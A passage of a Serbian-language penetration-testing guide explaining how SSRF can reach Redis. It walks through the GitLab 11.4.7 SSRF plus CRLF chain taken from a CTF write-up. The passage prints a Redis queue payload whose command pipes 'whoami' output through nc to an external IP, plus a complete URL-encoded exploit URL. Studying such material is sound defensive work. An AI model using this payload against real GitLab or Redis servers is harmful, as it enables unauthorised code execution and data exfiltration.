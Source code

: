 ## SSRF razgovor sa Redisom

Ako možete poslati **čisti tekstualni** zahtev **Redisu**, možete **komunicirati s njim** jer će Redis čitati zahtev po linijama i jednostavno odgovarati greškama na linije koje ne razume:

```
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```

Dakle, ako pronađete **SSRF vuln** na veb lokaciji i možete **kontrolisati** neke **zaglavlja** (možda sa CRLF vuln) ili **POST parametre**, moći ćete da šaljete proizvoljne komande Redisu.

### Primer: Gitlab SSRF + CRLF do Shell

U **Gitlab11.4.7** otkrivene su **SSRF** ranjivost i **CRLF**. **SSRF** ranjivost je bila u **funkcionalnosti uvoza projekta sa URL-a** prilikom kreiranja novog projekta i omogućila je pristup proizvoljnim IP adresama u obliku \[0:0:0:0:0:ffff:127.0.0.1] (ovo će pristupiti 127.0.0.1), a **CRLF** vuln je iskorišćen dodavanjem karaktera **%0D%0A** na **URL**.

Stoga je bilo moguće **zloupotrebiti ove ranjivosti da bi se komuniciralo sa Redis instancom** koja **upravlja redovima** iz **gitlaba** i zloupotrebiti te redove da bi se **dobilo izvršenje koda**. Payload za zloupotrebu Redis reda je:

```
multi
sadd resque:gitlab:queues system_hook_push
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|whoami | nc 192.241.233.143 80\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
exec
```

I URL enkodujem zahtev zloupotrebljavajući SSRF i CRLF da izvršim `whoami` i pošaljem izlaz putem `nc` je:

```
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```

_Za neki razlog (kao što je slučaj za autora_ [_https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/_](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) _odakle je ova informacija preuzeta) eksploatacija je uspela sa šemom `git` a ne sa šemom `http`._
